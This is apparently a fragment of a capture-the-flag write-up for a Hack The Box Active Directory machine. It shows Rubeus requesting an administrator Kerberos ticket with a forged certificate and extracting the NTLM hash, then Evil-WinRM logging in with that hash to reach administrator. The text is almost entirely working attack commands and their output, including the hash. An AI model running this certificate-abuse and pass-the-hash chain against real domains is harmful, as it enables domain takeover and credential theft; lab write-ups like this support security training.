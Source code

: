 ```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /ptt /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\administrator'
[*] Using domain controller: fe80::cd6b:33a9:6be3:51c%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGSDCCBkSgAwIBBaEDAgEWooIFXjCCBVphggVWMIIFUqADAgEFoQwbClNFUVVFTC5IVEKiHzAdoAMC
      AQKhFjAUGwZrcmJ0Z3QbCnNlcXVlbC5odGKjggUaMIIFFqADAgESoQMCAQKiggUIBIIFBJGAte48JVR2
      QSooyTWPFRkH3dG4Jn+4yA49ySz/SGVIbUIaUhI60s57nR6MDEQbLubWeyXQvCntB4Y2cQZHpz+B8CC1 
      <SNIP>

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  2/26/2023 4:03:36 AM
  EndTime                  :  2/26/2023 2:03:36 PM
  RenewTill                :  3/5/2023 4:03:36 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  AhmGg3/BmX+/ElcAqGh5Ew==
  ASREP (key)              :  1A62E5876BF5E7CF6D6D921B3957B3F2

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```
```shell
❯ evil-winrm -i 10.129.24.219 -u administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```
